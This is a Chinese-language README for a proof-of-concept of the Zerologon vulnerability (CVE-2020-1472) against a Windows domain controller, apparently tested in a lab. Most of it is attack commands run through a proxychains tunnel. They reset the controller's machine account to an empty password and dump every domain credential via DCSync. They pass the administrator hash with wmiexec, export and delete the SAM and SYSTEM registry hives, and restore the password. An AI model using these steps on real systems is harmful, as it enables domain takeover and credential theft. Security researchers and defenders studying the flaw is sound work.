






# CVE-2020-1472 POC
mac环境下通过proxychains代理的方式在window域环境中复现该漏洞。


##Environment

DC(主域控制器): 


Domain User(域成员主机):

通过gost直接设置socks5正向代理。


Attack Hacker(攻击机):

设置proxychains4

```
vim  /Users/xq17/.proxychains/proxychains.conf
```

增加PrxoyList列表

>[ProxyList]
>socks5 10.211.55.42 8099


Attack Tools(攻击利用工具):

```
1.git clone https://github.com/mstxq17/cve-2020-1472.git
2.pip3 install -r requirements.txt
```

如果执行出现这个错误:


说明是impacket模块出现了问题,尝试卸载掉impacket模块,在github安装最新版。

```
git clone https://github.com/SecureAuthCorp/impacket.git
cd impacket && pip3 install .
```

问题即可解决。


c# 版工具: https://github.com/nccgroup/nccfsas/tree/main/Tools/SharpZeroLogon


## Exploit steps

1. 本地先尝试利用域控密码,导出域机器账户的Hash,方便与修改之后来对比。

   ```
   proxychains4 secretsdump.py test.local/Administrator:'123QWEqwe!@#'@10.211.55.38 -just-dc-user "DC$"
   
   或者去掉双引号,但是要注意在linux下$代表是变量的意思记得转义。
   
   proxychains4 secretsdump.py test.local/Administrator:'123QWEqwe!@#'@10.211.55.38 -just-dc-user DC\$
   ```

   

2. 使用`zerologon_tester.py`,验证是否存在漏洞

   `python3 zerologon_tester.py DC 10.211.55.38`

   

   返回Success,代表存在漏洞。

3. 使用`cve-2020-1472-exploit.py`将机器账户重置

  `python3 cve-2020-1472-exploit.py dc$ 10.211.55.38`
  
  
  
4. 再次查看机器密码是否修改为空。
  
  
  
5. 域控的机器账户可以使用DCSync导出域内所有用户凭据

   原理:

   > 
   >
   > 利用DRS(Directory Replication Service,目录复制服务)协议通过IDL_DRSGetNCChanges从域控制器复制用户凭据。

   ` proxychains4 secretsdump.py test.local/dc\$@10.211.55.38 -no-pass`

   

6. 恢复DC$机器账户的密码

   通过

   `proxychains4 secretsdump.py test.local/dc\$@10.211.55.38 -no-pass -just-dc | grep 'Administrator'`

   获取到域管的hash

   

   

   然后通过wmic, pass the hash 拿到域控制器中的本地管理员权限(域管)

   ```
   wmiexec.py -hashes aad3b435b51404eeaad3b435b51404ee:8adfc85c3490040e942ae1e6c68f645e test.local/Administrator@10.211.55.38
   ```

   然后分别执行,拷贝本机中SAM数据库到MAC端

   ```
   - reg save HKLM\SYSTEM system.save
   - reg save HKLM\SAM sam.save
   - reg save HKLM\SECURITY security.save
   - get system.save
   - get sam.save
   - get security.save
   - del /f system.save
   - del /f sam.save
   - del /f security.save
   ```

     

   `secretsdump.py -sam sam.save -system system.save -security security.save LOCAL`

   提取出机器账号的明文hex

   

   最后执行

   ```
   proxychains4 python3 restorepassword.py DC@DC -target-ip 10.211.55.38 -hexpass 87e2812ccea41210c80e298c9e2a43a249d6a4056027787774340fbfd4b5f969563803b0f1bae7ccd24b29b41ae611025f1952793562d73e7f4e0f8938b3361332b35dd5ee22785b79b922149db32dc5c9301f4fd9fd090f532575bf5197a9c9230955bfd96ab928ae66b3999730c75b8545e26770816f21f2dbf9dbb19432211a91224c4c618507f7091ae09435a13a04bad5f056e72d34a96f67fa33d50e7596eca7709f398d98ba9e07407d7b2e4b937e40d1bf5ff0eb2240bdf0e8287e26ea5f8e69219fa7b1c5aa0e0bd8b992a176c32b0efb914fa6c1e53d69179110b02dfc1b1a0e53b445b92588420af18960
   ```

   

   可以看到信息完整恢复了。
   


## Question

单域环境下:

可以完美运行,将域控重启之后,域用户执行`net time /domain`会出现服务未启动的情况。


   

   


## Reference

[Netlogon特权提升漏洞 (CVE-2020-1472) 原理分析与验证](https://www.secrss.com/articles/25580)

[中文版pdf](http://mp.weixin.qq.com/s?__biz=MzU0MjUxNjgyOQ==&mid=2247485538&idx=1&sn=949fdfd17b9f18a6c39980ce591ca8e5&chksm=fb183b50cc6fb2469a75f7a124b6383e2c599a2d2fcae420444746697cddd028f74fc20a1b8c&mpshare=1&scene=23&srcid=0916FTADhDot8nkAs7LA4p4J&sharer_sharetime=1600228853864&sharer_shareid=3bdf1b0c76d4c1691e700c57f87d9c0a#rd)

[NAXG\CVE-2020-1472](https://github.com/NAXG/CVE-2020-1472)

